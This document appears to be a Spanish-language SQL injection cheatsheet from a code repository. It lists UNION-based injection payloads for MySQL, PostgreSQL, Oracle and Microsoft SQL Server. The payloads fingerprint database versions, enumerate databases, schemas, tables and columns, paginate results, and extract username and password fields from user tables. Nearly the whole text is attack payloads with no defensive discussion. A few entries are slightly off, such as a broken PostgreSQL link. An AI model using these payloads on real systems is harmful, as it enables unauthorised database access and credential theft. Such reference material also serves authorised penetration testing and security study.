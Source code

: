 
---
# Cheatsheet de SQLi en Bases de Datos Comunes

En este documento recogemos las principales consultas de enumeración y extracción de información mediante **inyecciones SQL (SQLi)** en las bases de datos más habituales: [MySQL](MySQL.md), [PostgreSQL](.md), [Oracle](Oracle.md) y [MSSQL](MSSQL.md) (Microsoft SQL Server ).  

---

# MySQL

## Obtener versión
```sql
' UNION SELECT NULL, @@version-- -
```

## Listar bases de datos
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata-- - 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'nombre_base_datos'-- - 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' AND table_schema = 'nombre_base_datos'-- -
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users-- -
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0-- -
```

---

# PostgreSQL

## Obtener versión
```sql
' UNION SELECT NULL, version()-- 
```

## Listar bases de datos
```sql
' UNION SELECT datname, NULL FROM pg_database -- 
```

## Listar schemas en la base de datos actual
```sql
' UNION SELECT NULL, schema_name FROM information_schema.schemata -- 
```

## Listar tablas de un esquema
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'public' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'nombre_tabla' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM users -- 
```

## Paginación
```sql
' UNION SELECT NULL, col FROM tabla LIMIT 10 OFFSET 0 -- 
```

---

# Oracle

## Obtener versión
```sql
' UNION SELECT NULL, banner FROM v$version WHERE ROWNUM = 1 -- 
```

## Listar schemas (usuarios)
```sql
' UNION SELECT NULL, username FROM all_users -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'ESQUEMA' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name = 'NOMBRE_TABLA_EN_MAYUSC' -- 
```

## Extraer datos
```sql
' UNION SELECT NULL, USER FROM DUAL -- 
```

## Paginación (con ROWNUM)
```sql
' UNION SELECT NULL, col FROM (SELECT col, ROWNUM rn FROM tabla WHERE ROWNUM <= 20) WHERE rn > 10 -- 
```

---

# Microsoft SQL Server (MSSQL)

## Obtener versión
```sql
' UNION SELECT NULL, @@version -- 
```

## Listar bases de datos
```sql
' UNION SELECT name, NULL FROM sys.databases -- 
```

## Listar tablas
```sql
' UNION SELECT NULL, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dbo' -- 
```

## Listar columnas
```sql
' UNION SELECT NULL, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'PRODUCT' AND TABLE_SCHEMA = 'dbo' -- 
```

## Extraer datos
```sql
' UNION SELECT username, password FROM nombre_tabla -- 
```

## Paginación
```sql
' UNION SELECT TOP 10 NULL, col FROM tabla -- 
' UNION SELECT NULL, col FROM tabla ORDER BY id OFFSET 10 ROWS FETCH NEXT 10 ROWS ONLY -- 
```

---

## Versiones

- **MySQL** → usa `LIMIT` para paginación.  
- **PostgreSQL** → muy similar a MySQL (`LIMIT ... OFFSET`).  
- **Oracle** → usa `ROWNUM` o subconsultas para limitar resultados.  
- **MSSQL** → versiones antiguas usan `TOP`; versiones modernas permiten `OFFSET ... FETCH`.  

---

